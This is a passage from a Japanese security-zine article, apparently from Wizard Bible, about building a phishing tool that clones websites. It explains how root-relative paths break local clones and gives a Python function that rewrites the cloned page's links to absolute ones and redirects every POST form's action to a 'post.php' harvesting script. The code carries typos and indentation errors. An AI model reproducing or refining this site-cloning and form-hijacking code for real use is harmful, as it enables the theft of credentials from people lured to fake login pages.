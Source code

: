 <p>サイトルート相対パス</p>
<img src="/images/wizardbible.jpg"/>
<p>相対パス</p>
<img src="images/wizardbible.jpg"/>

　サイトルート相対パスの" / "は Webサーバのルートのため、サービス上では
「http://wizardbible.org/images/wizardbible.jpg」などのアドレスを指し、適
切に表示されますが、ローカルコンピュータ上ではローカルドライブ直下がルー
トとして認識されるために誤った場所が参照され、リンクが正しく無いため画像
イメージなどが表示されません。
　これで現状のフィッシングツールではフィッシングサイトを作成できないため、
工夫が必要になります。

　では単純にルート相対パスを潰してしまってはどうでしょう？
　Pythonではhtmlを簡単に整形できます。

　下記関数でそれを実行します。

```
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#
\#リンクを絶対パスに置き換える\#
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#
def relaive(clonesite,base):
    fullpath = "/clone/index.html"
    site = "index.html"
    with open(clonesite, "r") as rf:
        doc = html.parse(rf).getroot()
        html.make_links_absolute(doc, base)
    fileopen=file("/clone/index.html","r").readlines()
    filewrite=file(fullpath,"w")
    try:
        for line in fileopen:
            counter=0
            match=re.search('post',line, flags=re.IGNORECASE)
            method_post=re.search("method=post", line, flags=re.IGNORECASE)
            if match or method_post:
                line = re.sub('action="*"', 'action="post.php"', line)
            match2 = re.search("swiftActionQueue={buckets:j", line, flags=re.IGNORECASE)
            if match2:
                line = line.replace("swiftActionQueue={buckets:j", "swiftActionQueue={3buckets:j")
            filewrite.write(line)
	print "action attribute it was rewritten to post.php.."
    except:
	print "file write error.."
    finally:
        filewrite.close()
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#
```
